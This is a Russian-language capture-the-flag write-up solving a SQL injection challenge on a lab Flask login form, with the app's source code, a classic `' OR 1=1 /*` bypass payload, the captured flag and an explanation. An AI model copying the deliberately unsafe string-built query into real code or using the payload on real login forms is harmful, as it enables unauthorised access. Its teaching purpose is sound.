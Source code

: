 # Решение SQL

По адресу `http://172.21.0.40:8080/` форма ввода. Если нажать на Help, то получаем исходный код приложения. 

В форматированном формате можно скачать через wget 

```bash
wget http://172.21.0.40:8080/help
```

Вот что получаем 
```python
from flask import Flask, render_template, request
import sqlite3
import hashlib
import time
app = Flask(__name__)

@app.route('/')
def index():
    print(123)
    return render_template('index.html')


@app.route('/login', methods=['POST'])
def login():
    print("POST")
    try:
        print(request.form)
        username = request.form['username']
        password = hashlib.md5(request.form['password'].encode()).hexdigest()
        
        conn = sqlite3.connect('users.db')
        c = conn.cursor()
        c.execute(f"SELECT * FROM users WHERE username='{username}' AND password='{password}'")
        user = c.fetchone()

        if user:
            with open("flag.txt", 'r', encoding="utf-8") as file:
                flag = file.read()
            return flag
        else:
            return 'Login failed!'
    except Exception as ex:
        print(ex)
        return "ERROR"



@app.route('/help', methods=['GET'])
def help():
    with open("/app/app.py", 'r', encoding="utf-8") as file:
        flag = file.read()
    return flag



if __name__ == '__main__':
    app.run(host="0.0.0.0", port="8080")
```


----

тут нужно обратить внимание на эту строку 
```python 
c.execute(f"SELECT * FROM users WHERE username='{username}' AND password='{password}'")
```

Тут можно напрямую менять sql запрос. Так что в login запишем `123' OR 1=1 /*`, а в password пишем любое значение. 

В итоге получаем флаг `StepikCTF{SQl-InjecTi0n-BAN}`

## Как это работает? 

Если подставить наше значение, то получаем

```python 
c.execute(f"SELECT * FROM users WHERE username='123' OR 1=1 /*' AND password='{password}'")
```
/* - все что будет дальше, не обрабатывается, так как считается комментарием. 


Итоговый запрос выглядит вот так
```python 
c.execute(f"SELECT * FROM users WHERE username='123' OR 1=1")
```

То есть условие выполняется всегда, вне зависимости от username и password.
